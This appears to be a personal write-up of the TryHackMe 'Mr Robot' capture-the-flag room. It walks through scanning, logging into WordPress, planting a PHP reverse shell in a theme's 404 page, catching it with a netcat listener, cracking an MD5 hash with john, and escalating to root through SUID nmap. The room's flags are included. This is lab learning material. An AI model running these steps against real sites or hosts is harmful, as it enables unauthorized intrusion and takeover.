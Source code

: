 ```yaml
---
tags:
  - CTF
  - reverse
  - RevShell
---
```

----------------------
- Link: https://tryhackme.com/r/room/mrrobot
- write-ups:
1. https://youtu.be/FxeFGkRhR3Q?si=yI84qwF4P7MExMCc
2. https://medium.com/@DRX_Sicher/writeup-mr-robot-ctf-1baf5f20e6f4

----

# Preparing


#### 1 - doing the scan stuff

```bash
nmap -A {ip}
```

```bash
gobuster dir -u {ip} -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

---
#### 2 - important directories 

`/license` , `/robot` , `login`

---
#### 3 - get to `robot`

you will find the first flag in the file text in the `robot` directory, and another doc file with a word list

----

#### 4 - Login-page

- Go and login in the `/login` directory with the password you will find in `/license` directory - and scroll down in the page to find it-
- Get to the appearance menu in word press and go to editor and open any templte and add the `php reverse shell code` from the following link and make sure to add  your `IP` and the port and go to the link of the php you edit it `{ip}/404.php`:
	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- and listen with 
```bash
nc -lvnp 6969
```
- change your shell to a normal shell, BTW this thing already mentioned in the [LinuxRoom-2](LinuxRoom-2.md)
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- print this file ---> `password.raw-md5` and crack the `md5` in the file with john the ripper, BTW this note of `john the ripper` mentioned in cracking the hash code in [LinuxRoom-1](LinuxRoom-1.md)
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | tee hash && john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- and the flag is `822c73956184f694993bede3eb39f959`

-----

#### 5 -  Search for the root accessed binaries

- Find the binaries that have a root privileges  
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
- The hint on the site says one thing `nmap` and the `nmap` appears to have a root privileges, so what we want to do is to open an interactive shell to access the root directory of the machine from the `namp`
	- here is a link of a site to open an interactive shell, search with the name of the tool and the condition of your shell. the link --->
		https://gtfobins.github.io/gtfobins/nmap/
	- after that access the root directory `cd /root/` and take the key.....
